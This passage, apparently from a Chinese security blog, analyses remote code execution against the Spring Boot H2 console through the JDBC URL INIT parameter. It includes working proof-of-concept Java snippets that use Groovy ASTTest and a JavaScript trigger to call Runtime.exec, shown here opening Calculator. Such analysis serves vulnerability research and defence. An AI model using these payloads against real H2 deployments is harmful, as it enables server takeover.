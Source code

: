 而这样的请求需要**如下的参数**

```python
spring.h2.console.enable=true
spring.h2.console.setting.web-allow-others=true
```

我们简单的看下源码

在`org.h2.engine.Engine#openSession`中，发起连接是可以**通过INIT关键字来影响初始化数据库连接的配置**

![img](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211747556.png)

![img](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211747988.png)

**当我们使用RUNSCRIPT关键字发起远程连接时**，代码将会执行到`org.h2.command.dml.RunScriptCommand#execute`

![img](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211747682.png)

这也就意味着我们可以**通过RUNSCRIPT来执行恶意的SQL语句**，但使用RUNSCRIPT意味着，**你的客户端必须出网才有可能利用。**

而我们之所以要使用RUNSCRIPT，本质是**因为常见的恶意SQL执行命令需要两句**，**而**`session.prepareCommand`**并不支持执行多行语句**

```python
CREATE ALIAS RUNCMD AS $$<JAVA METHOD>$$;
CALL RUNCMD(command)
```

在Spring Boot H2 console的源码中，我们可以继续寻找问题的解决办法，在SQL语句当中的JAVA方法将会执行到`org.h2.util.SourceCompiler`,一共有三种编译器，**分别是Java/Javascript/Groovy**

![img](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211747684.png)

**如果满足source开头是**`//groovy`**或者是**`@groovy`**就会使用对应Groovy引擎。**

![img](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211748878.png)

**利用**`@groovy.transform.ASTTEST `**就可以使用assert来执行命令**

```python
public static void main (String[] args) throws ClassNotFoundException, SQLException {
    String groovy = "@groovy.transform.ASTTest(value={" + " assert java.lang.Runtime.getRuntime().exec(\"open -a Calculator\")" + "})" + "def x";
    String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '"+ groovy +"'";
    Connection conn = DriverManager.getConnection(url);
    conn.close();
}
```

**除了Groovy以外还有JavaScript的利用方案**

![img](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211749239.png)

```python
public static void main (String[] args) throws ClassNotFoundException, SQLException {
    String javascript = "//javascript\njava.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\")";
    String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER hhhh BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '"+ javascript +"'";
    Connection conn = DriverManager.getConnection(url);
    conn.close();
}
```
